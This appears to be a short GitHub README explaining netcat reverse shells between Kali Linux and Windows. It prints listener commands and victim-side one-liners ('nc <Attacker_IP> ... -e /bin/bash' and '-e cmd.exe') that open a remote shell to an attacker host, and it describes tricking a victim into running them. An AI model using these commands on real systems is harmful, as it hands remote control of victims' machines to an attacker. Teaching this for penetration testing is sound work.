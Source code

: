 # Reverse-shell-access-using-netcat

I was gain a Reverse shell access uisng netcat in kali linux from windows ...vice versa

# What is Reverse shell access

A reverse shell is a type of connection where a target machine (the victim) initiates a connection back to an attacker’s machine. This allows the attacker to control the target machine remotely by executing commands on it.

# How Reverse Shell Works:

Attacker's Machine: Listens for incoming connections.

Victim's Machine: When compromised, it connects back to the attacker's machine, giving the attacker remote access.

# Two Simple Examples:

# Example 1: Attacker on Windows, Victim on Linux
**Attacker (Windows)**: Sets up a listener using netcat.

**Command**: nc -lvp 4444

**This means**: "Listen on port 4444 and wait for a connection."

**Victim** (Linux): The attacker tricks the victim into running a command.

**Command**: nc <**Attacker_IP**> 4444 -e /bin/bash

**This means**: "Connect to the attacker's IP on port 4444 and give them access to my shell."

**Result**: The attacker now controls the Linux machine from the Windows machine.

# Example 2: Attacker on Linux, Victim on Windows
**Attacker** (Linux): Listens for incoming connections.

**Command**: nc -lvp 5555

**Victim** (Windows): The attacker gets the victim to run this command.

**Command**: nc <**Attacker_IP**> 5555 -e cmd.exe

**This means**: "Connect to the attacker’s IP on port 5555 and give them access to my Windows command prompt."

**Result**: The attacker now has control over the Windows machine.

# In Summary:
**Reverse Shell**: The victim's machine connects back to the attacker's machine.
**Purpose**: Allows remote control over the victim's machine.
**Usage**: Often used in penetration testing or by hackers.
